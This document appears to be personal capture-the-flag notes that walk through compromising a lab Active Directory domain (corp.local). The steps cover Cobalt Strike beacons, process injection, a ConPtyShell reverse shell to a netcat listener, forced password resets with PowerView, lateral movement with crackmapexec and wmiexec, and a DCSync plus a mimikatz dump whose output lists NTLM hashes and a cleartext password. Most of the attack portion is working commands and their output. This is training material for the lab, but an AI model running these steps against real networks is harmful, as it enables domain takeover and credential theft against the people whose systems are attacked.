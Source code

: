 
This flag was difficult, Grow helped me fix the issue where my commands weren't working. The main issue on why they weren't working was because of the integrity of the shell that I was running in, which was a 0 integrity shell, typicall you need to be in a 1 integrity shell.

[[Whats the worst that could happen]]


Start at the `I'll Take fries with that` shell
![[Pasted image 20231229124706.png]]
once on `sql01\justalocaladmin` pop a cobalt strike beacon, I just utilized an http beacon
![[Pasted image 20231229124845.png]]
once a beacon has been popped on `SQL01` as `justalocaladmin` utilize the beacon to psexec into `SQL01` with `SMB` to beacom `SYSTEM`
![[Pasted image 20231229212252.png]]
this is the command used to pop a `SYSTEM` beacon
![[Pasted image 20231229212554.png]]
next go into the `SYSTEM` beacon and elevate to a `1` session through injecting into a `1` process
![[Pasted image 20231229212816.png]]
right click the beacon -> explore -> process list to utilize the GUI for injection
![[Pasted image 20231229213040.png]]
 winlogon is typically a good process to inject into
![[Pasted image 20231229212943.png]]once on as a `SESSION 1` shell download this script `https://raw.githubusercontent.com/antonioCoco/ConPtyShell/master/Invoke-ConPtyShell.ps1` onto kali - this is to get an upgraded shell with `SESSION 1` privileges
![[Pasted image 20231229213357.png]]
follow the `POC` on the github to setup a `netcat` listener
![[Pasted image 20231229213452.png]]
`powershell-import` the new script into the `SESSION 1` cobaltstrike session
![[Pasted image 20231229213604.png]]
`powershell-invoke` the script to pop a reverse shell
![[Pasted image 20231229213637.png]]
upload `powerview.ps1` to `C:\Windows\Tasks` in the `SYSTEM` `SESSION 1` beacon and run it in the `CON` reverse shell
![[Pasted image 20231229214417.png]]

once in the shell utilize the `BLOODHOUND` recommendation of commands to change the user `salvador`'s password with the `corp.local\pgibbons` credentials

```powershell
$SecPassword = ConvertTo-SecureString 'I l0ve going Fishing!' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('corp.local\pgibbons', $SecPassword)
$UserPassword = ConvertTo-SecureString 'bugs_b3_hacking_u' -AsPlainText -Force
Set-DomainUserPassword -Identity salvador -AccountPassword $UserPassword -Credential $Cred
```
![[Pasted image 20231229214516.png]]
utilize `proxychains crackmapexec smb 172.16.1.0/24 -u salvador -p 'bugs_b3_hacking_u'` to ensure salvador's password was changed
![[Pasted image 20231229214919.png]]
now setting the `cyber_adm` password
```powershell
PS C:\Windows\Tasks> $username = 'corp\salvador'
PS C:\Windows\Tasks> $password = 'bugs_b3_hacking_u'
PS C:\Windows\Tasks> $securePassword = ConvertTo-SecureString $password -AsPlainText -Force
PS C:\Windows\Tasks> $credential = New-Object System.Management.Automation.PSCredential $username, $securePassword
PS C:\Windows\Tasks> $UserPassword = ConvertTo-SecureString 'bugs_b3_hacking_u' -AsPlainText -Force
PS C:\Windows\Tasks> Set-DomainUserPassword -Identity cyber_adm -AccountPassword $securePassword -credential $credential
```
![[Pasted image 20231230021101.png]]
checking to ensure the password was set.
![[Pasted image 20231230021131.png]]
`proxychains python3 /usr/share/doc/python3-impacket/examples/wmiexec.py cyber_adm@172.16.1.24` to login
![[Pasted image 20231230022208.png]]
grab flag
![[Pasted image 20231230022228.png]]
`OFFSHORE{it_@ll_c0m3s_FuLl_c1rcl3}`


# Beginning to try to get to DC with DCSYNC
According to bloodhound since we have access as `CYBER_ADM@CORP.LOCAL` we are able to DCSync
![[Pasted image 20240102132058.png]]
attempted to get cobaltstrike beacon as `CORP\CYBER_ADM` was initially able to get a beacon, now access denied.  The first beacon died.

![[Pasted image 20240102132454.png]]

utilized `secretsdump.py` to DCsync the `corp.local` domain`

```powershell
┌──(root💀gobots)-[02Jan2024 13:50:26]-[/usr/share/doc/python3-impacket/examples]                                                                                                                           
└─# proxychains python3 secretsdump.py -just-dc cyber_adm:bugs_b3_hacking_u@172.16.1.5                                                                                                                      
[proxychains] config file found: /etc/proxychains4.conf                                                                                                                                                     
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4                                                                                                                                      
Impacket v0.11.0 - Copyright 2023 Fortra                                                                                                                                                                    
                                                                                                                                                                                                            
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)                                                                                                                                               
[*] Using the DRSUAPI method to get NTDS.DIT secrets                                                                                                                                                        
Administrator:500:aad3b435b51404eeaad3b435b51404ee:0109d7e72fcfe404186c4079ba6cf79c:::                                                                                                                      
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:cba2ed22077aa56ae957bcf43a8d82f8:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
bob:1110:aad3b435b51404eeaad3b435b51404ee:b38c126d0faabc61362ecc83ccb0cd08:::
joe:1111:aad3b435b51404eeaad3b435b51404ee:fde396caf28acc233207b2706483024f:::
bill:1113:aad3b435b51404eeaad3b435b51404ee:47b4d6012d7dcf231d8533758231c80d:::
salvador:1114:aad3b435b51404eeaad3b435b51404ee:bcee59fae528be44811e1b91ce3a8c35:::
lazy_admin:1119:aad3b435b51404eeaad3b435b51404ee:d168f91992f800743144f24518de5f2b:::
vincent.delpy:1120:aad3b435b51404eeaad3b435b51404ee:f5e7702e1032710f9f16ef8a691da861:::
iamtheadministrator:1122:aad3b435b51404eeaad3b435b51404ee:70016778cb0524c799ac25b439bd67e0:::
justalocaladmin:1603:aad3b435b51404eeaad3b435b51404ee:c718f548c75062ada93250db208d3178:::
corp.local\GStephenson:1604:aad3b435b51404eeaad3b435b51404ee:a6c9bca7e1f4076c538ff6e7096d59be:::
corp.local\AMountgarrett:1605:aad3b435b51404eeaad3b435b51404ee:4b76b38df5e9adf9739c8f43869d91ce:::
corp.local\JHann:1606:aad3b435b51404eeaad3b435b51404ee:1d863479e1ab3bd62a2bfafa1abaa2dd:::
corp.local\LBellantoni:1607:aad3b435b51404eeaad3b435b51404ee:2c019748d27c982f3be03c378759a954:::
corp.local\LGresham:1608:aad3b435b51404eeaad3b435b51404ee:520d2dcba9759412cda4eeeb524e5407:::
corp.local\EReynolds:1609:aad3b435b51404eeaad3b435b51404ee:bb413fd4eab36d867ae30ca134911ef6:::
corp.local\MTorres:1610:aad3b435b51404eeaad3b435b51404ee:a1e69cd82485430ad9f732a7673b0732:::
corp.local\OCollier:1611:aad3b435b51404eeaad3b435b51404ee:9e5c6bcd86c00d97c22f8630be9e4f35:::
corp.local\KSteele:1612:aad3b435b51404eeaad3b435b51404ee:4192316432ae3c0b0e9c948d494e64fa:::
corp.local\LMacghey:1613:aad3b435b51404eeaad3b435b51404ee:35fb7b7d541ed4fee611fbefe89707c6:::
corp.local\FFigueroa:1614:aad3b435b51404eeaad3b435b51404ee:d365fa7447d7cf17e62ba4758b67632e:::
corp.local\RFord:1615:aad3b435b51404eeaad3b435b51404ee:ece851cce21d0092e2d1e61537dd351e:::
corp.local\LPotter:1616:aad3b435b51404eeaad3b435b51404ee:6ded62367988f54d2d562621d6532051:::
corp.local\SYoung:1617:aad3b435b51404eeaad3b435b51404ee:64f12cddaa88057e06a81b54e73b949b:::
corp.local\BMoore:1618:aad3b435b51404eeaad3b435b51404ee:65d8f7784ce4eed6b2c1a028c4e54866:::
corp.local\ZWootten:1619:aad3b435b51404eeaad3b435b51404ee:561d7ee942fadd19101ccdb0a5fde05a:::
corp.local\SBradshaw:1620:aad3b435b51404eeaad3b435b51404ee:c377ac42a9918b3ccda3f1585484665a:::
corp.local\DDavis:1621:aad3b435b51404eeaad3b435b51404ee:027dcae638b664716cdc075fa4cbc493:::
corp.local\EMoulds:1622:aad3b435b51404eeaad3b435b51404ee:916c1dbf6a2a698bfbb4104d3fe55974:::

```

```powershell
[01/09 16:02:15] beacon> mimikatz !sekurlsa::logonpasswords
[01/09 16:02:15] [*] Tasked beacon to run mimikatz's !sekurlsa::logonpasswords command
[01/09 16:02:16] [+] host called home, sent: 815436 bytes
[01/09 16:02:33] [+] received output:

Authentication Id : 0 ; 7841633 (00000000:0077a761)
Session           : Batch from 0
User Name         : iamtheadministrator
Domain            : CORP
Logon Server      : DC01
Logon Time        : 1/9/2024 2:56:24 PM
SID               : S-1-5-21-2291914956-3290296217-2402366952-1122
	msv :	
	 [00000003] Primary
	 * Username : iamtheadministrator
	 * Domain   : CORP
	 * NTLM     : 70016778cb0524c799ac25b439bd67e0
	 * SHA1     : 971ee5007c3fdca1ab6c55b98488b1d6c9a7f046
	 * DPAPI    : 74ea433d1737c81f58ae0c74d959d3eb
	tspkg :	
	wdigest :	
	 * Username : iamtheadministrator
	 * Domain   : CORP
	 * Password : (null)
	kerberos :	
	 * Username : iamtheadministrator
	 * Domain   : CORP.LOCAL
	 * Password : (null)
	ssp :	
	credman :	
	 [00000000]
	 * Username : iamtheadministrator
	 * Domain   : iamtheadministrator
	 * Password : Password2!
```